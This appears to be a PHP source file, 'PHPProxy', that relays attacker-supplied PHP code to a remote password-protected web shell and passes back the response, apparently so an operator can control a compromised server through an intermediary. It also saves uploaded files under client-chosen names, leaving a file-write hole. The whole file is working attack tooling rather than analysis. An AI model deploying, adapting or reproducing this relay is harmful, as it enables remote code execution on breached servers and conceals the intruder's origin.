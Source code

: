 # PHPProxy
例子
<?php
/**
 * Created by PhpStorm.
 * User: abcdlzy
 * Date: 15/2/16
 * Time: 下午7:50
 */

include_once(dirname(__FILE__).'/../DataTransport.php');

@$URL=$_REQUEST['URL'];
@$pass=$_REQUEST['pass'];
@$code=$_REQUEST['code'];
if(!empty($URL)&&!empty($pass)&&!empty($code)){
    $phpcode = trim($code);

    $postArray=array();
    $postArray[$pass]=$phpcode;

    //文件处理
    if(!empty($_FILES)){
        foreach($_FILES as $key=>$value){
            move_uploaded_file($value['tmp_name'], $value['name']);
            $postArray[$key]='@'.realpath($value['name']);
        }
    }

    //处理shell
    foreach($_POST as $key=>$value){
        if($key!='URL'&&$key!='pass'&&$key!='code'){
            $postArray[$key]=$value;
        }
    }

    //获取数据
    DataTransport::go($URL,$postArray);

    //处理数据
    foreach ( preg_split( '/[\r\n]+/', DataTransport::$header ) as $headertext  ) {
        header( $headertext );
    }
    print(DataTransport::$response);

    //删除临时文件
    if(!empty($_FILES)){
        foreach($_FILES as $key=>$value){
            unlink($value['name']);
        }
    }
}
else{
    echo '500';
}



?>
